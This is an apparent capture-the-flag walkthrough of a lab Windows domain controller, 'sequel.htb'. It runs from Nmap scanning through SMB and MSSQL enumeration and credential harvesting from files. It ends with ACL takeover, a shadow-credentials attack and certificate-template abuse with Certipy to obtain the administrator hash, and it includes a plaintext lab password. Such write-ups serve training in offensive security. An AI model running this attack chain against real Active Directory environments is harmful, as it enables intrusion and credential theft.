


 

## Escape Two 

`Given Credential rose:KxEPkKe6R8su`

**Step1:** 

Starting with an Nmap scan 

**Command:** `Nmap <ip address> `

```bash
┌──(kali㉿kali)-[~]
└─$ nmap  10.10.11.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 13:28 EST
Nmap scan report for sequel.htb (10.10.11.51)
Host is up (0.36s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 18.51 seconds

```

` `

To have a complete overview, apply an in-depth Nmap scan. 

**Command:** `nmap -sC -sV -A -O 10.10.11.51`

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A -O 10.10.11.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 13:28 EST
Nmap scan report for sequel.htb (10.10.11.51)
Host is up (0.35s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-06 18:29:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-06T18:30:46+00:00; +3s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-06T18:30:45+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.51:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.51:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-06T18:02:25
|_Not valid after:  2055-02-06T18:02:25
|_ssl-date: 2025-02-06T18:30:46+00:00; +3s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-06T18:30:46+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-06T18:30:45+00:00; +3s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-06T18:30:07
|_  start_date: N/A
|_clock-skew: mean: 2s, deviation: 0s, median: 2s

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   352.02 ms 10.10.14.1
2   351.69 ms sequel.htb (10.10.11.51)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.19 seconds
                                                                  
```

` `

From here, we have the following deductions:

- **Active Directory-based system**
- **SMB running**
- **AD Domain:** `sequel.htb`
- **Hostname:** `dc01.sequel.htb`

To resolve the domain name into an IP address, we add it to `/etc/hosts`:

**Command:** `sudo nano /etc/hosts`

```bash                                                                                                                                         
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                                              
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.51  sequel.htb
10.10.11.51 dc01.sequel.htb
```


**Step2:**

Let start with smb enumeration using netexec utility.

**Command:** `netexec smb 10.10.11.51 -u rose -p  'KxEPkKe6R8su' --users --rid-brute`


 

Here we have a few users, we create a **username.txt** of these which will be used later.

Let check smb shares using command

**Command:** `smbclient -L \\\\10.10.11.51\\ -U rose `


 

Here we can see all available shares. Under **Accounting Department** share we found couple of `.xlsx` files

 

Under `Accounts.xlsx > sharedStrings` there we are few usernames and password. For better readability use `GPT`.

 

Now continue working with netexec, but now we move to mssql enumeration.

I found a link for working with 
[netexec and mssql](https://www.netexec.wiki/mssql-protocol/mssql-command)

**Command:** `netexec mssql 10.10.11.51 -u sa -p <password here> --local-auth -x "whoami"`

 

Here I found nothing so try with –local-auth

**Command:** `netexec mssql 10.10.11.51 -u sa -p <password here> --local-auth -x "whoami"`

 

And success! We are able to execute command

I tried to access these folders but not able access.

 

Under C:\ I found folder SQL2019 

 

In this folder I found a .Ini file having a credential

**command** `netexec mssql 10.10.11.51 -u sa -p <password here> --local-auth -x 'type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI'`

 

To know the username, we try with smb_login auxiliary. We can also use other common method to find username. The username will be same we enumerated earlier.

 


Here 2 users having same password. When I try to access the powershell session using evil-winrim, I was failing with sql_svc user.

 

But when I try the password with ryan user I got a PowerShell session through evil-winrm

 

And we have a user flag.

**Step3:**

Now we have to escalate privilege let upload a sharp hound and run it to have a complete picture of network

From here we can download
[sharp hound](https://github.com/SpecterOps/BloodHound-Legacy/tree/master/Collectors)


 

Using `.\Sharphound.exe` command to run the sharhound. 


 

And we we have zip file, Download it.

 

Now we use Blood hound to enumerate a network. Run neo4j console command and then access bloodhound

 


Complete picture

 

We are `RYAN`, Now if we view outbound object control for ryan we can see that ryan has overwrite access on `ca_svc`

 

Now if we can see under help we have some suggestion for window and linux abuse

 

In linux abuse we have couple of interesting suggestion from blood hound


Start from giving access to ryan of ca_svc account using bloodyAd

**Command:** `bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p '<password>' set owner ca_svc ryan`

In order to give complete access we use suggestion from blood hound i.e. dacledit

**Command:** `dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'<password here>'`

 

 Now available template and misconfigured template that allow privilege escalation.

**Command:** `certipy-ad find -u "ryan" -p "<password here>" -dc-ip 10.10.11.51 -debug `


 


When we open .txt file 
On opening Certipy.txt file we have an interesting template DunderMifflinAuthentication.

 

Now we apply shadow credential attack

**Command:** `certipy shadow auto -u ryan@sequel.htb -p '<password here>' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc`

 

This command performs the following actions:

1. **Generating a Certificate** – Certipy creates a new certificate and links it to the target account (`ca_svc`), acting as an authentication token.  

2. **Generating a Key Credential** – A Key Credential (Device ID) is created and stored in Active Directory, which can be used for authentication.  

3. **Injecting the Key Credential** – The generated Key Credential is added to the `ca_svc` account, allowing authentication without needing a password.  

4. **Authenticating as ca_svc** – Certipy uses the certificate to obtain a **Kerberos TGT**, enabling full access as `ca_svc`.  

5. **Retrieving the NT Hash** – The **NTLM hash** for `ca_svc` is extracted, which can be used for various post-exploitation techniques.


Once we have ca_svc.cache file we use it for authentication for user ca_svc. For this first we point environment variable to cache file. 

Then we take advantage of vulnerability 

**Command:** `KRB5CCNAME=/home/kali/Downloads/ca_svc.ccache certipy find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`

 

Once the command is complete we have 


 
 

Now we have administrator.pfx which we will use for authentication

 

And here we have administrator hash

 

Now use this hash to login as administrator


 

And we have a root flag
